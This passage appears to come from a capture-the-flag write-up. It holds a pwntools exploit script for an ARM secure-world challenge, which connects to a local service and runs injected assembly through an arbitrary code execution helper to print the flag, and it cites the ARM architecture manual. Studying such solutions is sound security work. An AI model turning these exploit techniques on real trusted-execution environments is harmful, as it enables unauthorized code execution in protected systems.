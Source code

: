 ```python
    str r1, [r0], #4;\n
    
    svc #0x00;
    """

    return assem


p = remote("localhost", 6666)
# p = process("../share/run.sh")
# p = process("../share/run_debug.sh")
elf = ELF("./el0")

SEL_WSM_ADDR = 0x2400000 - 0x2000
TCI_BUF = 0x7FFEFFFFE000
sel0_arbitrary_code_execute(
    sel0_get_flag_assembly(),
    f"""
    ldr x28, ={hex(TCI_BUF)};\n
    movz x3, #{hex(elf.symbols['puts'] & 0xFFFF)};\n
    movk x3, #{hex((elf.symbols['puts']>>16) & 0xFFFF)}, LSL #16;\n
    mov x0, x28;\n
    blr x3;\n
    """,
)
# b *0x7FFEFFFFD120

FLAG = p.recvline()
print(f"Flag: {FLAG.decode()}")

p.close()
```

# Reference

- <https://developer.arm.com/documentation/ddi0487/latest/>

